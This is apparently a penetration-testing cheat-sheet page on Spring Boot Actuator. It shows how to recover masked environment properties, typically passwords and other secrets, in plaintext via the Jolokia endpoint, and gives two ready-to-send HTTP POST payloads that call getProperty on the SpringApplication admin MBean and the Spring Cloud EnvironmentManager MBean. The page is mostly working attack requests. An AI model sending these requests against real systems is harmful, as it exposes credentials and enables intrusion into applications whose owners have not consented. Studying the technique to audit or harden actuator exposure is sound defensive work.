 ## Extract env properties

You can invoke relevant MBeans to retrive `env` property values in plaintext. Below you can find MBeans that can be used for this purpose. However, the situation may differ and the Mbeans listed may not be available. However, you can search methods that can be called by keywords like `getProperty`.

References:
- [Spring Boot Vulnerability Exploit Check List: Obtain the plaintext of the password desensitized by the asterisk (method 1)](https://github.com/LandGrey/SpringBootVulExploit#0x03%E8%8E%B7%E5%8F%96%E8%A2%AB%E6%98%9F%E5%8F%B7%E8%84%B1%E6%95%8F%E7%9A%84%E5%AF%86%E7%A0%81%E7%9A%84%E6%98%8E%E6%96%87-%E6%96%B9%E6%B3%95%E4%B8%80)

### org.springframework.boot

You can get `env` property value in plaintext using the following request:

```http
POST /actuator/jolokia HTTP/1.1
Content-Type: application/json

{
    "mbean": "org.springframework.boot:name=SpringApplication,type=Admin",
    "operation": "getProperty",
    "type": "EXEC",
    "arguments": [
        "your.property.name"
    ]
}
```

`org.springframework.boot` MBean calls the `getProperty` method of the `org.springframework.boot.admin.SpringApplicationAdminMXBeanRegistrar` class instance.

### org.springframework.cloud.context.environment

You can get `env` property value in plaintext using the following request:

```http
POST /actuator/jolokia HTTP/1.1
Content-Type: application/json

{
    "mbean": "org.springframework.cloud.context.environment:name=environmentManager,type=EnvironmentManager",
    "operation": "getProperty",
    "type": "EXEC",
    "arguments": [
        "your.property.name"
    ]
}
```

`org.springframework.cloud.context.environment` MBean calls the `getProperty` method of the `org.springframework.cloud.context.environment.EnvironmentManager` class instance.
